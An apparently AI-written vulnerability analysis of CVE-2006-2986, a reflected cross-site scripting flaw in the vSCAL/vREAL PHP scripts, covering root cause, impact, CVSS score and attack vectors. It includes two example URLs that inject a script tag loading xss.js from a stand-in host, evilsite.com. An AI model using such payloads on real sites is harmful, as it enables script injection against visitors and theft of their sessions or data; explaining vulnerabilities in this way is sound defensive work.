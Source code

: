 Based on the provided information, here's an analysis of CVE-2006-2986:

**Root Cause of Vulnerability:**

*   The vulnerability stems from a lack of proper input sanitization in the `vSCAL` and `vREAL` scripts, specifically in how they handle the `lid` variable in `index.php` and the `title` variable in `myslideshow.php`.

**Weaknesses/Vulnerabilities Present:**

*   **Cross-Site Scripting (XSS):** The scripts are vulnerable to reflected XSS attacks. This is because they directly embed user-supplied input into the HTML output without any sanitization or encoding.

**Impact of Exploitation:**

*   **Partial Integrity Impact:** An attacker could inject malicious scripts into the vulnerable pages.
*   **No Confidentiality or Availability Impact:** The attack does not directly impact the confidentiality or availability of the application.

**Attack Vectors:**

*   **HTTP GET Request:** The vulnerability is triggered through specially crafted URLs that include malicious JavaScript code within the vulnerable parameters (e.g., `lid` and `title`).
    *   `http://www.example.com/vscal/index.php?page=showlisting&lid=<SCRIPT%20SRC=evilsite.com//xss.js></SCRIPT>`
    *   `http://www.example.com/vscal/myslideshow.php?dir=./listings/317/images/&title=listing+317:+1966+Buick+<SCRIPT%20SRC=http://evilsite.com/xss.js></SCRIPT>`

**Required Attacker Capabilities/Position:**

*   **Remote, Unauthenticated Access:** An attacker can trigger the vulnerability remotely without needing any authentication.
*   **Ability to Craft URLs:** The attacker needs to be able to create URLs with the malicious script injected into the vulnerable parameters.

**Additional Details:**

*   The affected scripts are `index.php` and `myslideshow.php`.
*   The specific vulnerable parameters are `lid` and `title`.
*   The severity is considered "Low" with a CVSS base score of 4.3, primarily due to the limited impact on confidentiality and availability.

The vulnerability details provided in this content are more detailed than a generic CVE description which would simply state there is a cross site scripting issue. The content provides the vulnerable scripts and parameters and example attack vectors.